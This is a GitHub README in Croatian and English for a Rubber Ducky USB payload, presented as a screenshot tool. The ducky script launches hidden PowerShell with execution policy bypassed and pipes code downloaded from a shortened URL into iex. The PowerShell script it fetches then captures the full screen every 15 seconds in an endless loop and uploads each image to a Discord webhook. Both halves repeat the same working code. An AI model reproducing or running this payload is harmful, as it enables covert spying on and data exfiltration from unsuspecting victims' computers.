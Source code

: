 ### README.md 

# Screenshot na Discord Webhook

Ova skripta omogućuje automatsko slanje screenshotova s vašeg računala na Discord kanal koristeći webhook. Skripta koristi PowerShell za snimanje zaslona, a Rubber Ducky uređaj za automatsko pokretanje procesa.

## Instalacija i Postavljanje

### 1. Rubber Ducky Skripta

Ovdje je skripta koju treba prenijeti na vaš **Rubber Ducky uređaj**. Ova skripta će otvoriti PowerShell, preuzeti PowerShell skriptu s poslužitelja i izvršiti ju.

**Rubber Ducky Skripta:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='WEBHOOK_HERE'; irm https://is.gd/CF0P74 | iex
ENTER
```

Zamijenite `WEBHOOK_HERE` s stvarnim Discord webhook URL-om.

### 2. PowerShell Skripta (preuzeta s internetskog linka)

Ovdje je sadržaj PowerShell skripte koja će preuzeti screenshot i poslati ga na Discord webhook:

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 3. Pokretanje

1. Spojite **Rubber Ducky uređaj** na računalo.
2. Skripta će automatski otvoriti PowerShell, preuzeti i pokrenuti PowerShell skriptu koja snima screenshotove.
3. Svakih 15 sekundi, skripta će snimiti sliku ekrana i poslati je na Discord kanal.

## Upute za prilagodbu

* **Interval između screenshotova**: Ako želite promijeniti interval između slanja screenshotova, uredite vrijednost `$seconds` u PowerShell skripti.
* **Webhook URL**: Promijenite `WEBHOOK_HERE` u stvarni URL vašeg Discord webhook-a.

---

### README.md (in English)

# Screenshot to Discord Webhook

This script allows automatic screenshot capturing from your computer and sends them to a Discord channel using a webhook. It uses PowerShell to capture the screen and a Rubber Ducky device to automate the process.

## Installation and Setup

### 1. Rubber Ducky Script

Here is the script you need to upload to your **Rubber Ducky device**. This script will open PowerShell, download the PowerShell script from the server, and execute it.

**Rubber Ducky Script:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='WEBHOOK_HERE'; irm https://is.gd/CF0P74 | iex
ENTER
```

Replace `WEBHOOK_HERE` with your actual Discord webhook URL.

### 2. PowerShell Script (downloaded from internet link)

Here is the content of the PowerShell script that will capture the screenshot and send it to the Discord webhook:

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 3. Running

1. Plug in the **Rubber Ducky device** to the computer.
2. The script will automatically open PowerShell, download, and run the PowerShell script that captures the screenshots.
3. Every 15 seconds, the script will take a screenshot and send it to the Discord channel.

## Customization Instructions

* **Screenshot Interval**: If you want to change the interval between screenshots, modify the `$seconds` value in the PowerShell script.
* **Webhook URL**: Change `WEBHOOK_HERE` to your actual Discord webhook URL.


